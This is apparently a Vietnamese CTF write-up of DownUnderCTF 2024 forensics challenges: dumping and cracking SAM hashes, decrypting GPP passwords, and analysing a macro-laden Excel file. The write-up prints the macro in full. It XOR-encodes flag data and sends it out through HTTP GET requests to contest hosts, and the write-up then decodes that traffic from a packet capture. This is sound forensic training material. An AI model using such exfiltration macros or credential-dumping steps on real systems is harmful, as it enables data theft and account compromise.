







\# LƯU Ý : Những bài nhỏ mình sẽ không viết solution hoặc sẽ viết ngắn gọn nhất có thể 

## Challenge 
> https://github.com/DownUnderCTF/Challenges_2024_Public/tree/main
## Baby's First Forensics
- Bài này xàm quá nên mình không viết writeup

## SAM I AM

### Description 

> The attacker managed to gain Domain Admin on our rebels Domain Controller! Looks like they managed to log on with an account using WMI and dumped some files.

> Can you reproduce how they got the Administrator's Password with the artifacts provided?

> Place the Administrator Account's Password in DUCTF{}, e.g. DUCTF{password123!}

### Solution 
- Mục đích bài này là trích xuất dữ liệu người dùng từ file SYSTEM với file SAM
- Tham khảo bài viết [này](https://juggernaut-sec.com/dumping-credentials-sam-file-hashes/#Exfiltrating_the_SAM_and_SYSTEM_Files_Onto_Our_Attacker_Machine)
- Dùng công cụ samdump2 có sẵn trên linux => mật khẩu và tên người dùng dưới dạng hash => dùng john để crack => password => Flag

## Bad Policies

### Description 
> Looks like the attacker managed to access the rebels Domain Controller.

> Can you figure out how they got access after pulling these artifacts from one of our Outpost machines?

### Solution 
- Nguồn : 
- [Bài 1](https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/)
- [Bài 2](https://github.com/t0thkr1s/gpp-decrypt)
- Đọc xong 2 bài này là có flag 

## Macro Magic

### Description 
> We managed to pull this excel spreadsheet artifact from one of our Outpost machines. Its got something sus happening under the hood. After opening we found and captured some suspicious traffic on our network. Can you find out what this traffic is and find the flag!

> Note: You do not need to run or enable the macro so solve.
### Solution
- Trước tiên đề cho chúng ta 2 file, bao gồm 1 file .xlsm và 1 file pcapng (trong đó chữ m trong xlsm đại diện cho macro)
- Mình sẽ bắt đầu với việc sử dụng olevba để phân tích 


<details>

<summary>
src macro
</summary>

```
┌──(kali㉿kali)-[~/Downloads]
└─$ olevba Monke.xlsm   
olevba 0.60.1 on Python 2.7.18 - http://decalage.info/python/oletools
===============================================================================
FILE: Monke.xlsm
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO Module1.bas 
in file: xl/vbaProject.bin - OLE stream: u'VBA/Module1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 


' Totally Not Malware


' Try Harder


' Are you Monkey Enough!


Public Function anotherThing(B As String, C As String) As String
    Dim I As Long
    Dim A As String
    For I = 1 To Len(B)
        A = A & Chr(Asc(Mid(B, I, 1)) Xor Asc(Mid(C, (I - 1) Mod Len(C) + 1, 1)))
    Next I
    anotherThing = A
End Function


' MDAxMTEwMDAgMDAxMTAxMDAgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDEgMDAxMTAxMDAgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMTAgMDAxMTAwMDEgMDAxMDAwMDAgMDAxMTAwMTEgMDAxMTAwMTAgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMTAgMDAxMDAwMDAgMDAxMTEwMDEgMDAxMTAxMTEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDEgMDAxMTAxMDAgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDAgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDAgMDAxMTAwMDEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDEgMDAxMTAxMDA=


' Do you even Excel!


Public Function importantThing()
    Dim tempString As String
    Dim tempInteger As Integer
    Dim I As Integer
    Dim J As Integer
    For I = 1 To 5
        Cells(I, 2).Value = WorksheetFunction.RandBetween(0, 1000)
    Next I
    For I = 1 To 5
        For J = I + 1 To 5
            If Cells(J, 2).Value < Cells(I, 2).Value Then
                tempString = Cells(I, 1).Value
                Cells(I, 1).Value = Cells(J, 1).Value
                Cells(J, 1).Value = tempString
                tempInteger = Cells(I, 2).Value
                Cells(I, 2).Value = Cells(J, 2).Value
                Cells(J, 2).Value = tempInteger
            End If
        Next J
    Next I
End Function


' MDAxMTAxMTEgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTEwMDEgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAxMTAgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMDEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMTAgMDAxMTAwMTEgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTEwMDAgMDAxMDAwMDAgMDAxMTEwMDAgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTAxMTEgMDAxMDAwMDAgMDAxMTEwMDAgMDAxMTAxMDAgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTEwMDEgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTEwMDEgMDAxMTAxMTEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDAgMDAxMTAxMTEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDAgMDAxMTAwMDEgMDAxMDAwMDAgMDAxMTEwMDEgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDAgMDAxMTEwMDAgMDAxMDAwMDAgMDAxMTEwMDEgMDAxMTAxMTEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDAgMDAxMTAwMTEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMTAgMDAxMTAxMDE=


Public Function totalyFine(A As String) As String
    Dim B As String
    B = Replace(A, " ", "-")
    totalyFine = B
End Function


' MDAxMTEwMDAgMDAxMTAxMDAgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDEgMDAxMTAxMDAgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMTAgMDAxMTAwMDEgMDAxMDAwMDAgMDAxMTAwMTEgMDAxMTAwMTAgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMTAgMDAxMDAwMDAgMDAxMTEwMDEgMDAxMTAxMTEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDEgMDAxMTAxMDAgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDAgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDAgMDAxMTAwMDEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDEgMDAxMTAxMDA=


' Do you even Excel!


Sub macro1()
    Dim Path As String
    Dim wb As Workbook
    Dim A As String
    Dim B As String
    Dim C As String
    Dim D As String
    Dim E As String
    Dim F As String
    Dim G As String
    Dim H As String
    Dim J As String
    Dim K As String
    Dim L As String
    Dim M As String
    Dim N As String
    Dim O As String
    Dim P As String
    Dim Q As String
    Dim R As String
    Dim S As String
    Dim T As String
    Dim U As String
    Dim V As String
    Dim W As String
    Dim X As String
    Dim Y As String
    Dim Z As String
    Dim I As Long
    N = importantThing()
    K = "Yes"
    S = "Mon"
    U = forensics(K)
    V = totalyFine(U)
    D = "Ma"
    J = "https://play.duc.tf/" + V
    superThing (J)
    J = "http://flag.com/"
    superThing (J)
    G = "key"
    J = "http://play.duc.tf/"
    superThing (J)
    J = "http://en.wikipedia.org/wiki/Emu_War"
    superThing (J)
    N = importantThing()
    Path = ThisWorkbook.Path & "\flag.xlsx"
    Set wb = Workbooks.Open(Path)
    Dim valueA1 As Variant
    valueA1 = wb.Sheets(1).Range("A1").Value
    MsgBox valueA1
    wb.Close SaveChanges:=False
    F = "gic"
    N = importantThing()
    Q = "Flag: " & valueA1
    MsgBox Q
    MsgBox valueA1
    H = "Try Harder"
    U = forensics(H)
    V = totalyFine(U)
    J = "http://downunderctf.com/" + V
    superThing (J)
    W = S + G + D + F
    O = doThing(Q, W)
    M = anotherThing(O, W)
    A = something(O)
    Z = forensics(O)
    N = importantThing()
    P = "Pterodactyl"
    U = forensics(P)
    V = totalyFine(U)
    J = "http://play.duc.tf/" + V
    superThing (J)
    T = totalyFine(Z)
    MsgBox T
    J = "http://downunderctf.com/" + T
    superThing (J)
    N = importantThing()
    E = "Forensics"
    U = forensics(E)
    V = totalyFine(U)
    J = "http://play.duc.tf/" + V
    superThing (J)
    
End Sub


' MDAxMTAxMTEgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTEwMDEgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAxMTAgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMDEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMTAgMDAxMTAwMTEgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTEwMDAgMDAxMDAwMDAgMDAxMTEwMDAgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTAxMTEgMDAxMDAwMDAgMDAxMTEwMDAgMDAxMTAxMDAgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTEwMDEgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTEwMDEgMDAxMTAxMTEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDAgMDAxMTAxMTEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDAgMDAxMTAwMDEgMDAxMDAwMDAgMDAxMTEwMDEgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDAgMDAxMTEwMDAgMDAxMDAwMDAgMDAxMTEwMDEgMDAxMTAxMTEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDAgMDAxMTAwMTEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMTAgMDAxMTAxMDE=


Public Function doThing(B As String, C As String) As String
    Dim I As Long
    Dim A As String
    For I = 1 To Len(B)
        A = A & Chr(Asc(Mid(B, I, 1)) Xor Asc(Mid(C, (I - 1) Mod Len(C) + 1, 1)))
    Next I
    doThing = A
End Function


' Think of the emus!


' MDAxMTAxMTEgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTEwMDEgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAxMTAgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMDEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMTAgMDAxMTAwMTEgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTEwMDAgMDAxMDAwMDAgMDAxMTEwMDAgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTAxMTEgMDAxMDAwMDAgMDAxMTEwMDAgMDAxMTAxMDAgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTEwMDEgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTEwMDEgMDAxMTAxMTEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDAgMDAxMTAxMTEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDAgMDAxMTAwMDEgMDAxMDAwMDAgMDAxMTEwMDEgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDAgMDAxMTEwMDAgMDAxMDAwMDAgMDAxMTEwMDEgMDAxMTAxMTEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDAgMDAxMTAwMTEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMTAgMDAxMTAxMDE=


Public Function superThing(ByVal A As String) As String
    With CreateObject("MSXML2.ServerXMLHTTP.6.0")
        .Open "GET", A, False
        .Send
        superThing = StrConv(.responseBody, vbUnicode)
    End With
End Function


' MDAxMTEwMDAgMDAxMTAxMDAgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDEgMDAxMTAxMDAgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMTAgMDAxMTAwMDEgMDAxMDAwMDAgMDAxMTAwMTEgMDAxMTAwMTAgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMTAgMDAxMDAwMDAgMDAxMTEwMDEgMDAxMTAxMTEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDEgMDAxMTAxMDAgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDAgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDAgMDAxMTAwMDEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDEgMDAxMTAxMDA=


' Do you even Excel!


' Try Harder


Public Function something(B As String) As String
    Dim I As Long
    Dim A As String
    For I = 1 To Len(inputText)
        A = A & WorksheetFunction.Dec2Bin(Asc(Mid(B, I, 1)))
    Next I
    something = A
End Function


' Totally Not Malware


' MDAxMTAxMTEgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTEwMDEgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAxMTAgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMDEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMTAgMDAxMTAwMTEgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTEwMDAgMDAxMDAwMDAgMDAxMTEwMDAgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTAxMTEgMDAxMDAwMDAgMDAxMTEwMDAgMDAxMTAxMDAgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTEwMDEgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTEwMDEgMDAxMTAxMTEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDAgMDAxMTAxMTEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDAgMDAxMTAwMDEgMDAxMDAwMDAgMDAxMTEwMDEgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDAgMDAxMTEwMDAgMDAxMDAwMDAgMDAxMTEwMDEgMDAxMTAxMTEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDAgMDAxMTAwMTEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMTAgMDAxMTAxMDE=


Public Function forensics(B As String) As String
    Dim A() As Byte
    Dim I As Integer
    Dim C As String
    A = StrConv(B, vbFromUnicode)
    For I = LBound(A) To UBound(A)
        C = C & CStr(A(I)) & " "
    Next I
    C = Trim(C)
    forensics = C
End Function


-------------------------------------------------------------------------------
VBA MACRO Sheet1 (Monkey).bas 
in file: xl/vbaProject.bin - OLE stream: u'VBA/Sheet1 (Monkey)'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
REM  *****  BASIC  *****

Sub Main

End Sub
-------------------------------------------------------------------------------
VBA MACRO Sheet2 (Flag).bas 
in file: xl/vbaProject.bin - OLE stream: u'VBA/Sheet2 (Flag)'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
REM  *****  BASIC  *****

Sub Main

End Sub
-------------------------------------------------------------------------------
VBA MACRO ThisWorkbook.cls 
in file: xl/vbaProject.bin - OLE stream: u'VBA/ThisWorkbook'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO Sheet1.cls 
in file: xl/vbaProject.bin - OLE stream: u'VBA/Sheet1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO Sheet2.cls 
in file: xl/vbaProject.bin - OLE stream: u'VBA/Sheet2'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|Suspicious|CreateObject        |May create an OLE object                     |
|Suspicious|Open                |May open a file                              |
|Suspicious|Chr                 |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|Xor                 |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|MSXML2.ServerXMLHTTP|May download files from the Internet         |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|IOC       |https://play.duc.tf/|URL                                          |
|IOC       |http://flag.com/    |URL                                          |
|IOC       |http://play.duc.tf/ |URL                                          |
|IOC       |http://en.wikipedia.|URL                                          |
|          |org/wiki/Emu_War    |                                             |
|IOC       |http://downunderctf.|URL                                          |
|          |com/                |                                             |
+----------+--------------------+---------------------------------------------+

```

</details>

- Ta có thể thấy có rất nhiều vị trí như thế này 
```
MDAxMTAxMTEgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTEwMDEgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAxMTAgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMDEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMTAgMDAxMTAwMTEgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTEwMDAgMDAxMDAwMDAgMDAxMTEwMDAgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTAgMDAxMTAxMTEgMDAxMDAwMDAgMDAxMTEwMDAgMDAxMTAxMDAgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTEwMDEgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTEwMDEgMDAxMTAxMTEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDAgMDAxMTAxMTEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDAgMDAxMTAwMDEgMDAxMDAwMDAgMDAxMTEwMDEgMDAxMTAxMDEgMDAxMDAwMDAgMDAxMTAxMTEgMDAxMTAwMDAgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDAgMDAxMTEwMDAgMDAxMDAwMDAgMDAxMTEwMDEgMDAxMTAxMTEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMDAgMDAxMTAwMTEgMDAxMDAwMDAgMDAxMTAwMDEgMDAxMTAwMTAgMDAxMTAxMDE=
```

- Tuy nhiên đây chỉ là base64, decode ra chỉ là fake flag nên ta không cần quan tâm 
- Tập trung vào các hàm (có thể coi hàm macro1 là hàm chính)
```
Sub macro1()
    Dim Path As String
    Dim wb As Workbook
    Dim A As String
    Dim B As String
    Dim C As String
    Dim D As String
    Dim E As String
    Dim F As String
    Dim G As String
    Dim H As String
    Dim J As String
    Dim K As String
    Dim L As String
    Dim M As String
    Dim N As String
    Dim O As String
    Dim P As String
    Dim Q As String
    Dim R As String
    Dim S As String
    Dim T As String
    Dim U As String
    Dim V As String
    Dim W As String
    Dim X As String
    Dim Y As String
    Dim Z As String
    Dim I As Long
    N = importantThing()
    K = "Yes"
    S = "Mon"
    U = forensics(K)
    V = totalyFine(U)
    D = "Ma"
    J = "https://play.duc.tf/" + V
    superThing (J)
    J = "http://flag.com/"
    superThing (J)
    G = "key"
    J = "http://play.duc.tf/"
    superThing (J)
    J = "http://en.wikipedia.org/wiki/Emu_War"
    superThing (J)
    N = importantThing()
    Path = ThisWorkbook.Path & "\flag.xlsx"
    Set wb = Workbooks.Open(Path)
    Dim valueA1 As Variant
    valueA1 = wb.Sheets(1).Range("A1").Value
    MsgBox valueA1
    wb.Close SaveChanges:=False
    F = "gic"
    N = importantThing()
    Q = "Flag: " & valueA1
    MsgBox Q
    MsgBox valueA1
    H = "Try Harder"
    U = forensics(H)
    V = totalyFine(U)
    J = "http://downunderctf.com/" + V
    superThing (J)
    W = S + G + D + F
    O = doThing(Q, W)
    M = anotherThing(O, W)
    A = something(O)
    Z = forensics(O)
    N = importantThing()
    P = "Pterodactyl"
    U = forensics(P)
    V = totalyFine(U)
    J = "http://play.duc.tf/" + V
    superThing (J)
    T = totalyFine(Z)
    MsgBox T
    J = "http://downunderctf.com/" + T
    superThing (J)
    N = importantThing()
    E = "Forensics"
    U = forensics(E)
    V = totalyFine(U)
    J = "http://play.duc.tf/" + V
    superThing (J)
    
End Sub

```
- Phân tích thử 1 đoạn, vì các đoạn dưới cũng tương tự

```
    K = "Yes"
    U = forensics(K)
    V = totalyFine(U)
    J = "https://play.duc.tf/" + V
    superThing (J)
```
- Đầu tiên nó thực thi hàm forensics với input là K ("YES")

```
Public Function forensics(B As String) As String
    Dim A() As Byte
    Dim I As Integer
    Dim C As String
    A = StrConv(B, vbFromUnicode)
    For I = LBound(A) To UBound(A)
        C = C & CStr(A(I)) & " "
    Next I
    C = Trim(C)
    forensics = C
End Function
```
=> Hàm này chuyển đổi chuỗi đầu vào thành các byte, sau đó kết hợp chúng thành một chuỗi các giá trị byte phân tách bằng dấu cách. 

- Tiếp theo chúng sẽ thay thế các dấu cách bằng dấu "-" thông qua hàm `totalyFine`
```
Public Function totalyFine(A As String) As String
    Dim B As String
    B = Replace(A, " ", "-")
    totalyFine = B
End Function
```
- Rồi dùng hàm superThing để gửi request lên 
```
ublic Function superThing(ByVal A As String) As String
    With CreateObject("MSXML2.ServerXMLHTTP.6.0")
        .Open "GET", A, False
        .Send
        superThing = StrConv(.responseBody, vbUnicode)
    End With
End Function
```
- Giờ thì mở wireshark lên để bắt các gói dữ liệu thôi, rồi dùng cyberchef để decode
- Đầu tiên lọc theo giao thức http 
- Nhìn vào GET ta thấy được 1 vài chuỗi đã bị sửa đổi
- 
- Giờ thì xem thử 1 cái nào 
- 
- Tất nhiên dữ liệu được được giải mã là văn bản gốc đã có sẵn 
- 
